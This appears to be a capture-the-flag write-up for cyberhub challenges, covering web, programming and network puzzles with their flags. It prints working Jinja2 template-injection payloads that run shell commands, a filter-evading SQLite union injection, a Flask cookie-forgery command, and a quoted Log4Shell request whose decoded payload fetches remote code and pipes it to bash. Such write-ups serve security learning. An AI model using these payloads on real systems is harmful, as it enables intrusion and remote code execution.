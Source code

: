 ## Welcome 
![](https://i.imgur.com/4gooC7G.png)

>cyberhub_{hello&welcome2Discord}

----

## Authy - WEB 1
![](https://i.imgur.com/eMus9Sj.png)

we saw a login page source code that contained base64 encoded creds
![](https://i.imgur.com/IwIb99f.png)



```
<script>
        function makeLogin(){var _0x5a12f9=document['getElementById']('login')['value'],_0x11607b=document['getElementById']('password')['value'];_0x5a12f9['length']>0x0&&_0x11607b['length']>0x0?_0x5a12f9==atob('d2ViX2FkbWlu')&&_0x11607b==atob('c3VwZXJfc2VjdXJlX3Bhc3N3b3JkXzEzMzchISE=')?alert(atob('Q29uZ3JhdHVsYXRpb25zISBUaGUgZmxhZyBpcyBjeWJlcmh1Yl97Y2xpZW50X2F1dGhfaXNfbm90X3NlY3VyZX0=')):alert('Incorrect\x20username\x20or\x20password!'):alert('Username\x20or\x20password\x20cannot\x20be\x20empty!');}
    </script>
```

>cyberhub_{client_auth_is_not_secure}

---

## Health Card - WEB 2

![](https://i.imgur.com/Bv6f5z9.png)

after trying multiple things like OPTIONS turns out i cant GET but the solution was not in there...

![](https://i.imgur.com/GFQa5oS.png)

i tried XSS but no results so then i tried SSTI and it worked on one of the feilds.

![](https://i.imgur.com/6Jux8j9.png)

used this as a reference: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/
```
firstName=&lastName=&info={{ config.items() }}
firstName=&lastName=&info={{ ''.__class__.__mro__[1].__subclasses__() }} 
firstName=&lastName=&info={{‘’.__class__.__mro__[1].__subclasses__()[284:]}}
firstName=&lastName=&info={{''.__class__.__mro__[1].__subclasses__()[283]('ls',shell=True,stdout=-1).communicate()}}
firstName=&lastName=&info={{''.__class__.__mro__[1].__subclasses__()[283]('cat ../opt/flag.txt',shell=True,stdout=-1).communicate()}}
```
![](https://i.imgur.com/vzSkoUC.png)


>cyberhub_{VaccineGoodInjectionSSTIBadInjection}

---

## Public Secrets - WEB 3

![](https://i.imgur.com/nSk1ZZ6.png)

http://web.cyberhubchallenges.com:8030/api/getResource?resource=bee_movie.txt

the above URL has "resource=" so lets try some fun stuff

checking the error, there seems to be a main.py file that we should take a look at.

reference:http://www.pranav-venkat.com/2021/03/malcrove-playsecure-ctf-easy-web-challenge-writeup.html

tool: https://github.com/noraj/flask-session-cookie-manager
```
python3 flask_session_cookie_manager3.py encode -s 'SecureUncrackablePassword' -t '{"type":"admin"}'
    eyJ0eXBlIjoiYWRtaW4ifQ.YgZU-w.4xmGppYUvIVEOBuNlN6QcWu2xGA
```

![](https://i.imgur.com/mZrFuoc.png)

>cyberhub_{EncryptedCookiesAreNoMatchForLFI}

---

## Super Safe Employee Portal - WEB 4

by passing a ' we got an SQLite error! 
![](https://i.imgur.com/FnYokLm.png)
![](https://i.imgur.com/xhoszdR.png)
![](https://i.imgur.com/SZwgfgn.png)

reference: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md

so it seems it doesnt accept " " space so we can use instead "/**/" which is a comment
![](https://i.imgur.com/Q1xxE5j.png)
![](https://i.imgur.com/0pXV24p.png)

we just need to keep the number oc colum selected is equal to what our query has
```
GET /?q=admin'union/**/SELECT/**/sql,'1','2'/**/FROM/**/sqlite_master;
```
![](https://i.imgur.com/nlWPiFg.png)
![](https://i.imgur.com/kOIeXLO.png)

>cyberhub_{EvadingFiltersAndDumpingDataIsTruly1337}

---

---

## Programming 1

![](https://i.imgur.com/1co4qYi.png)

![](https://i.imgur.com/XE4vA5n.png)

>cyberhub_{QCCARFBGLPJJ}

---

## Programming 2

![](https://i.imgur.com/a610Bk9.png)

![](https://i.imgur.com/j0SsHu5.png)

>cyberhub_{MJPMZQAQRFRF}

---

## Programmming 4

![](https://i.imgur.com/XE6YtJx.png)

![](https://i.imgur.com/mwbGYG7.png)

https://stackoverflow.com/questions/29064189/maximum-and-minimum-number-from-a-file-in-c

>cyberhub_{JJHJACZARGVT}

---

## 64's 
![](https://i.imgur.com/3jFJ4ch.png)
![](https://i.imgur.com/cd3sWMp.png)

>cyberhub_{39a43213c13501e46d5eeee6190759a3}

---
## NET01

![](https://i.imgur.com/1qyuxOb.png)
![](https://i.imgur.com/25W21lj.png)
only one from port 80
![](https://i.imgur.com/z09vflO.png)
![](https://i.imgur.com/LWYbB3F.png)

![](https://i.imgur.com/17Y2FZg.png)
jpg ends with 'FF D9' and this seems the reverse 'mirror' of it

![](https://i.imgur.com/hlgxH1w.png)
and starts with 'FF D8 FF E0 00 10 4A 46 49 46 00 01' and also this is the 'mirror' of it

![](https://i.imgur.com/Wa6lLkq.png)
![](https://i.imgur.com/TH6KXjw.png)
>cyberhub_{ba71f5ad35cb194dbc744c360557109b}

---

## NET02

![](https://i.imgur.com/8CIeM1Z.png)
LOG4J!


ip contains jndi
![](https://i.imgur.com/w8pxK33.png)
```
GET //?x=${jndi:ldap://114.25.32.15:3369/Basic/Command/Base64/KGN1cmwgLXMgaHR0cHM6Ly9tZWdhLm56L2ZpbGUva1VrMEVMeEwjZXdhRGlFUGctUjVMSHl3eER5Uk56WmFWS2tYU0xHX3BDWTlZRUFacHkwNC8yMC4xMS4wLjQ2OjgwfHx3Z2V0IC1xIC1PLSBodHRwczovL21lZ2EubnovZmlsZS9rVWswRUx4TCNld2FEaUVQZy1SNUxIeXd4RHlSTnpaYVZLa1hTTEdfcENZOVlFQVpweTA0LzIwLjExLjAuNDY6ODApfGJhc2g= HTTP/1.0
Host: HelloCyberHub.com
```
from base64
```
(curl -s https://mega.nz/file/kUk0ELxL#ewaDiEPg-R5LHywxDyRNzZaVKkXSLG_pCY9YEAZpy04/20.11.0.46:80||wget -q -O- https://mega.nz/file/kUk0ELxL#ewaDiEPg-R5LHywxDyRNzZaVKkXSLG_pCY9YEAZpy04/20.11.0.46:80)|bash
```
![](https://i.imgur.com/vCXeRcT.png)

https://www.cvedetails.com/cve/CVE-2022-23302/ CVE

>cyberhub_{123_CVE-2021-44228_...-..._AndLoveScapy}

